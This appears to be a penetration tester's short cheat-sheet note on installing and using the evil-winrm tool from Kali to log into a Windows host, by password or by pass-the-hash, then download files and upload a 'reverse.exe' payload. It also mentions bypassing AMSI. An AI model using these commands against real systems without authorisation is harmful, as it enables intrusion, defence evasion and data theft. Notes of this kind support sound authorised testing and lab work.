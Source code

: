 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Steps

```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```

```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git && cd -
```

Login with either password or Hash.
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -p '$PASSWORD'
```

```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -H '$HASH'
```

Bypass AMSI, used to run PowerShell scripts.

#### Downloading files - ==MUST USE FULL PATHS==
```powershell - windows
download C:\Troubleshooting\powershell-logs.csv /home/kali/Desktop/powershell-log
```

#### Uploading files - ==MUST USE FULL PATHS==
```powershell - windows
upload /home/kali/Desktop/reverse.exe C:\Troubleshooting\reverse.exe
```

SEE ALSO:
[[3._EvilWinRM]]

